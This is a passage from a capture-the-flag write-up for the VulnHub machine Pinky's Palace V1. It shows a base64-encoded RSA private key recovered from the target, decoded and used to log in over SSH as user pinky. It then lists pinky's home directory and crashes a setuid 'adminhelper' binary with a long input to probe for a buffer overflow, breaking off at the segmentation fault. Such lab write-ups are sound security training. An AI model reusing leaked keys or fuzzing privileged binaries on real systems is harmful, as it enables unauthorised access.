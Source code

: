 	OHJsNmNiWU5jYjNPbkRmQU9IYWxYQVU4TVpGRkF4OWdrY1NwejYKNkxPdWNOSUp1eS8zUVpOSEZo
	TlIrWVJDb0RLbkZuRUlMeFlMNVd6MnFwdFdNWUR1d3RtR3pPOTY4WWJMck9WMQpva1dONmdNaUVp
	NXFwckJoNWE4d0JSUVZhQnJMWVdnOFdlWGZXZmtHektveEtQRkt6aEk1ajQvRWt4TERKcXQzCkxB
	N0pSeG1Gbjc3L21idmFEVzhXWlgwZk9jUzh1Z3lSQkVOMFZwZG5GNmtsNnRmT1hLR2owZ2QrZ0Fp
	dzBUVlIKMkNCN1BzRUNnWUVBOElXM1pzS3RiQ2tSQnRGK1ZUQnE0SzQ2czdTaFc5QVo2K2JwYitk
	MU5SVDV4UkpHK0RzegpGM2NnNE4rMzluWWc4bUZ3c0Jobi9zemdWQk5XWm91V3JSTnJERXhIMHl1
	NkhPSjd6TFdRYXlVaFFKaUlQeHBjCm4vRWVkNlNyY3lTZnpnbW50T2liNGh5R2pGMC93bnRqTWM3
	M3h1QVZOdU84QTZXVytoZ1ZIS0VDZ1lFQTVZaVcKSzJ2YlZOQnFFQkNQK3hyQzVkSE9CSUVXdjg5
	QkZJbS9Gcy9lc2g4dUU1TG5qMTFlUCsxRVpoMkZLOTJReDlZdgp5MWJNc0FrZitwdEZVSkxjazFN
	MjBlZkFhU3ZPaHI1dWFqbnlxQ29mc1NVZktaYWE3blBRb3plcHFNS1hHTW95Ck1FRWVMT3c1NnNK
	aFNwMFVkWHlhejlGUUFtdnpTWFVudW8xdCtnTUNnWUVBdWJ4NDJXa0NwU0M5WGtlT3lGaGcKWUdz
	TE45VUlPaTlrcFJBbk9seEIzYUQ2RkY0OTRkbE5aaFIvbGtnTTlzMVlPZlJYSWhWbTBaUUNzOHBQ
	RVZkQQpIeDE4ci8yRUJhV2h6a1p6bGF5ci9xR29vUXBwUkZtbUozajZyeWZCb21RbzUrSDYyVEE3
	bUl1d3Qxb1hMNmM2Ci9hNjNGcVBhbmcyVkZqZmNjL3IrNnFFQ2dZQStBenJmSEZLemhXTkNWOWN1
	ZGpwMXNNdENPRVlYS0QxaStSd2gKWTZPODUrT2c4aTJSZEI1RWt5dkprdXdwdjhDZjNPUW93Wmlu
	YnErdkcwZ016c0M5Sk54SXRaNHNTK09PVCtDdwozbHNLeCthc0MyVng3UGlLdDh1RWJVTnZEck9Y
	eFBqdVJJbU1oWDNZU1EvVUFzQkdSWlhsMDUwVUttb2VUSUtoClNoaU9WUUtCZ1FEc1M0MWltQ3hX
	Mm1lNTQxdnR3QWFJcFE1bG81T1Z6RDJBOXRlRVBzVTZGMmg2WDdwV1I2SVgKQTlycExXbWJmeEdn
	SjBNVmh4Q2pwZVlnU0M4VXNkTXpOYTJBcGN3T1dRZWtORTRlTHRPN1p2MlNWRHI2Y0lyYwpIY2NF
	UCtNR00yZVVmQlBua2FQa2JDUHI3dG5xUGY4ZUpxaVFVa1dWaDJDbll6ZUFIcjVPbUE9PQotLS0t
	LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
	```
	- The key is base64 encoded, `=` is used as padding for base64
4. Decode
	```
	┌──(root💀kali)-[~/vulnHub/PinkysPalaceV1/192.168.110.27/exploit]
	└─# base64 -d encoded.txt > id_rsa; chmod 600 id_rsa
	```
5. SSH into `pinky` w/ `id_rsa`
	![](Pasted%20image%2020220212210720.png)

## Root - Via Buffer Overflow (64 Bit)
1. View files in pinky's home directory
	```
	pinky@pinkys-palace:~$ ls -la
	total 44
	drwx------ 3 pinky pinky 4096 Feb  2  2018 .
	drwxr-xr-x 4 root  root  4096 Feb  2  2018 ..
	-rwsr-xr-x 1 root  root  8880 Feb  2  2018 adminhelper
	lrwxrwxrwx 1 root  root     9 Feb  1  2018 .bash_history -> /dev/null
	-rw-r--r-- 1 pinky pinky  220 Jan 28  2018 .bash_logout
	-rw-r--r-- 1 pinky pinky 3526 Jan 28  2018 .bashrc
	lrwxrwxrwx 1 pinky pinky    9 Feb  1  2018 .mysql_history -> /dev/null
	-rw-r--r-- 1 root  root   280 Feb  2  2018 note.txt
	-rw-r--r-- 1 pinky pinky  675 Jan 28  2018 .profile
	drwx------ 2 pinky pinky 4096 Feb  2  2018 .ssh
	-rw------- 1 pinky pinky 1815 Feb  2  2018 .viminfo
	```
	- `adminhelper`
	- `note.txt`
2. View content of the files 
	```
	pinky@pinkys-palace:~$ cat note.txt 
	Been working on this program to help me when I need to do administrator tasks sudo is just too hard to configure and I can never remember my root password! Sadly I'm fairly new to C so I was working on my printing skills because Im not sure how to implement shell spawning yet :(
	pinky@pinkys-palace:~$ 
	```
3. Execute `adminhelper` to see what it does
	``` 
	pinky@pinkys-palace:~$ ./adminhelper $(python -c 'print "A" * 500')
	Segmentation fault